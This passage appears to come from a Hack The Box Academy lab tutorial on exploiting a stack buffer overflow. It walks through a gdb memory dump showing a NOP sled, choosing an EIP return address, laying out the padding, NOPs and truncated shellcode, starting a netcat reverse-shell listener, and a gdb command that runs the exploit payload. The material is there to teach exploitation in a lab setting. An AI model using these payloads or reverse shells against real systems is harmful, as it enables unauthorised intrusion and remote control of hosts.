 ```shell-session
0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |---> Shellcode
<SNIP>
```

Here, we now have to choose an address to which we refer the `EIP` and which reads and executes one byte after the other starting at this address. In this example, we take the address `0xffffd64c`. Illustrated, it then looks like this:

#### Buffer

![image](https://academy.hackthebox.eu/storage/modules/31/buffer_overflow_9.png)

After selecting a memory address, we replace our "`\x66`" which overwrites the EIP to tell it to jump to the `0xffffd64c` address. Note that the input of the address is entered backward.

#### Notes

Notes

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"
```

Since our shellcode creates a reverse shell, we let `netcat` listen on port 31337.

#### Netcat - Reverse Shell Listener

Netcat - Reverse Shell Listener

```shell-session
student@nix-bow:$ nc -nlvp 31337

Listening on [0.0.0.0] (family 0, port 31337)
```

After starting our `netcat` listener, we now run our adapted exploit again, which then triggers the CPU to connect to our listener.

#### Exploitation

Exploitation

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

#### Netcat - Reverse Shell Listener

Netcat - Reverse Shell Listener
